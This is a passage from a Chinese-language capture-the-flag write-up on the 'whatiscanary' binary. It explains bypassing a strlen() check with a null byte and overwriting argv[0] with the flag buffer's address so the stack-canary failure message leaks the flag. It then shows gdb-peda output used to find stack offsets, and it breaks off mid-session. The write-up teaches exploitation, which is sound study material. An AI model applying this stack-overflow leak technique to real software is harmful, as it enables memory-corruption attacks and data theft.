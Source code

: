 ```c
  return *MK_FP(__GS__, 20) ^ v2;
}
```

这里需要绕过 `strlen()` 的判断，所以在输入时注意及时加入结束符0.

<br/>

现在回到canary的话题。在显示错误信息时，程序会显示文件名，而文件名这个变量是由main函数的argv[0]存储的。另外注意到这个程序在main函数中把flag的内容读到的全局变量 `&unk_804A0A0` 中，所以把argv[0]的内容换成这个全局变量就能输出flag了。

<br/>

写payload的思路就这样了，难点还有就是找到argv[0]的偏移。从ida pro的反编译中可以看到输入变量与ebp的距离是0x2c，那么现在目标是找到ebp指向地址以及argv[0]地址。下个断点看看就行。

```bash
gdb-peda$ file whatiscanary 
Reading symbols from whatiscanary...(no debugging symbols found)...done.
gdb-peda$ b *(0x080487FF)
Breakpoint 1 at 0x80487ff
gdb-peda$ r
Starting program: /root/Desktop/whatiscanary 
hello, welcome to HBCTF!
input your name(length < 10):asdfasdf

 [----------------------------------registers-----------------------------------]
EAX: 0xbffff3bc ("asdfasdf")
EBX: 0x0 
ECX: 0xa ('\n')
EDX: 0x8 
ESI: 0xb7fb3000 --> 0x1aedb0 
EDI: 0xb7fb3000 --> 0x1aedb0 
EBP: 0xbffff3e8 --> 0xbffff3f8 --> 0x0 
ESP: 0xbffff3a4 --> 0xb7fb3000 --> 0x1aedb0 
EIP: 0x80487ff (push   eax)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80487f6:   add    esp,0x10
   0x80487f9:   sub    esp,0xc
   0x80487fc:   lea    eax,[ebp-0x2c]
=> 0x80487ff:   push   eax
   0x8048800:   call   0x80485b0 <strlen@plt>
   0x8048805:   add    esp,0x10
   0x8048808:   mov    DWORD PTR [ebp-0x30],eax
   0x804880b:   cmp    DWORD PTR [ebp-0x30],0xa
[------------------------------------stack-------------------------------------]
0000| 0xbffff3a4 --> 0xb7fb3000 --> 0x1aedb0 
0004| 0xbffff3a8 --> 0xbffff3d8 --> 0xbffff3f8 --> 0x0 
0008| 0xbffff3ac --> 0x8048779 (add    esp,0x10)
0012| 0xbffff3b0 --> 0x804b008 --> 0xfbad240c 
0016| 0xbffff3b4 --> 0x8 
0020| 0xbffff3b8 --> 0x9 ('\t')
0024| 0xbffff3bc ("asdfasdf")
0028| 0xbffff3c0 ("asdf")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080487ff in ?? ()
gdb-peda$ stack 30
0000| 0xbffff3a4 --> 0xb7fb3000 --> 0x1aedb0 
0004| 0xbffff3a8 --> 0xbffff3d8 --> 0xbffff3f8 --> 0x0 
0008| 0xbffff3ac --> 0x8048779 (add    esp,0x10)
0012| 0xbffff3b0 --> 0x804b008 --> 0xfbad240c 
0016| 0xbffff3b4 --> 0x8 
0020| 0xbffff3b8 --> 0x9 ('\t')
```